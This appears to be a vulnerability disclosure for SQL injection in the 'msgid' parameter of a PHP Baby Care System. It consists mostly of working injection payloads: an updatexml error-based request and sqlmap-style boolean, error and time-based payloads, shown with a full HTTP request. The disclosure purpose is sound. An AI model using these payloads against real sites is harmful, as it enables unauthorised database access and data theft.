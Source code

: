 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/inbox.php&action=read&msgid=

![image](https://user-images.githubusercontent.com/54017627/161354868-cc09a2cd-ef2a-4185-a6a9-9c70eb9c0c29.png)

Vulnerability location: /BabyCare/admin.php?id=inbox&action=read&msgid=11 //msgid is Injection point

[+]Payload:  /BabyCare/admin.php?id=inbox&action=read&msgid=11%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ //msgid is Injection point

```sql
GET /BabyCare/admin.php?id=inbox&action=read&msgid=11%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=h48mjnelp4g0935821l2k3g5ne
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/161354750-1f5d471f-7c65-4025-b497-b1c04399c8c8.png)

```sql
---
Parameter: msgid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=inbox&action=read&msgid=11' AND 4681=4681 AND 'xjEi'='xjEi

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=inbox&action=read&msgid=11' AND (SELECT 9382 FROM(SELECT COUNT(*),CONCAT(0x716b707871,(SELECT (ELT(9382=9382,1))),0x7178787071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'TmlF'='TmlF

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=inbox&action=read&msgid=11' AND (SELECT 7228 FROM (SELECT(SLEEP(5)))cyYg) AND 'PNfI'='PNfI
---
```

![image](https://user-images.githubusercontent.com/54017627/161354890-0bdea68d-69f7-4945-a32e-de5c49329d50.png)
